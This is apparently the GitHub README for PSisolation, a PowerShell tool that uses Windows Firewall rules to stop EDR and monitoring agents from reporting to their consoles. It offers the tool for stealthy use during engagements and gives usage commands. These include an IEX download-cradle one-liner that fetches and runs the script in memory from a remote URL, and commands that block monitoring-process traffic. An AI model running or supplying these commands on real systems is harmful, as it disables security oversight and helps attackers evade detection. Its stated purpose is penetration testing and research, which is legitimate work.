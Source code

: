 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````


https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

